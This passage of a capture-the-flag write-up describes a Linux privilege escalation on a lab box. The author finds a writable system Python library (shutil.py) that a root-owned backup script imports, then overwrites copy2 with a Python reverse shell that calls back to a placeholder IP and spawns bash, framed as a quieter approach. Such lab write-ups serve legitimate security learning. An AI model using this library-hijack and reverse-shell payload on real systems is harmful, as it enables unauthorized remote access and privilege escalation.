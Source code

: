 #### PRIVILEGE ESCALATION --- death -> morpheus

- In the `getDreams.py` from death's home directory we can find death's password.

```
# MySQL credentials
DB_USER = "death"
DB_PASS = "!{REDACTED}!"
DB_NAME = "library"
```

- After some enumeration, I noticed that I still don't have access to `/kingdom_backup` and I used find to see what else is available to user death.

```
find / -group death 2>/dev/null
```

```
/usr/lib/python3.8/shutil.py
```

```
-rw-rw-r-- 1 root death 51474 Aug  7  2023 /usr/lib/python3.8/shutil.py
```

- So we have access to write to that python libary.

- In `/home/morpheus` there's a file called `restore.py`

```
death@dreaming:/home/morpheus$ cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

- so whatever we write in `shutil.py` will get executed by this script when it executes.

- I'm on a rush, so I didn't allocate time to transfer `pspy` and check if this script is actually runinng at specific times. I'll just replace the content with a reverse shell and hope for the best.

- A harder to detect approach would be to replace only the `copy2` function from `shutil.py` with our payload, since we know that that exact function is imported.

```
def copy2(src, dst, *, follow_symlinks=True):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("IP",3132))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")
```
